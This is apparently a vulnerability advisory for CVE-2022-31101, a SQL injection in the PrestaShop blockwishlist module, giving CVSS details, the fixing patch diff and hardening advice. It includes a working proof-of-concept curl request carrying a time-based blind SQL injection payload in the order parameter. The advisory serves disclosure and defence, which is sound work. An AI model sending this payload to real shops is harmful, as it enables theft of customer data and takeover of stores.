 ```yaml
---
layout: post
title: "[CVE-2022-31101] Invalid order neutralization in an SQL query in PrestaShop blockwishlist module"
categories: modules
author:
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,blockwishlist"
severity: "high (8.8)"
---
```


**blockwishlist** is a prestashop extension which adds a block containing the customer's wishlists. In affected versions an authenticated customer can perform SQL injection. This issue is fixed in version 2.1.1. Users are advised to upgrade. There are no known workarounds for this issue. 

## Summary

* **CVE ID**: [CVE-2022-31101](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31101)
* **Published at**: 2022-06-24
* **Advisory source**: PrestaShop
* **Platform**: PrestaShop
* **Product**: blockwishlist
* **Impacted release**: >=2.0.0, <2.1.1
* **Product author**: PrestaShop
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.8)

## Description

An authenticated customer can perform SQL injection.


## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

Technical and personal data leaks
Obtain admin access
Remove all data of the linked PrestaShop

## Proof of concept

Based on this [POC](https://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)

```bash
curl -v 'http://website.com/module/blockwishlist/view?id_wishlist=1&order=product.name%2C%20%28select%20case%20when%20%28id_customer%3D1%29%20then%20%28SELECT%20SLEEP%287%29%29%20else%201%20end%20from%20ps_customer%20where%20id_customer%3D1%29%3B%20--.asc'
```


## Patch of release 2.1.0 to 2.1.1

Issue is fixed in 2.1.1 in this [patch](https://github.com/Prestashop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

```diff
--- a/src/Search/WishListProductSearchProvider.php
+++ b/src/Search/WishListProductSearchProvider.php
@@ -35,6 +35,7 @@ use PrestaShop\PrestaShop\Core\Product\Search\SortOrderFactory;
 use Product;
 use Shop;
 use Symfony\Component\Translation\TranslatorInterface;
+use Validate;
 use WishList;
 
 /**
@@ -167,7 +168,10 @@ class WishListProductSearchProvider implements ProductSearchProviderInterface
 
         if ('products' === $type) {
             $sortOrder = $query->getSortOrder()->toLegacyOrderBy(true);
-            $querySearch->orderBy($sortOrder . ' ' . $query->getSortOrder()->toLegacyOrderWay());
+            $sortWay = $query->getSortOrder()->toLegacyOrderWay();
+            if (Validate::isOrderBy($sortOrder) && Validate::isOrderWay($sortWay)) {
+                $querySearch->orderBy($sortOrder . ' ' . $sortWay);
+            }
             $querySearch->limit((int) $query->getResultsPerPage(), ((int) $query->getPage() - 1) * (int) $query->getResultsPerPage());
             $products = $this->db->executeS($querySearch);
```


## Other recommendations

* It’s recommended to upgrade to the latest version of the module **blockwishlist** up to 2.1.1.

Please note, blockwishlist is often forked to be customized.

* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”) - be warned that this functionality **WILL NOT** protect your SHOP against injection SQL which uses the UNION clause to steal data.
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Links

* [PrestaShop product repository](https://github.com/Prestashop/blockwishlist/security/advisories/GHSA-2jx3-5j9v-prpp)
* [POC](http://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)
* [Patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

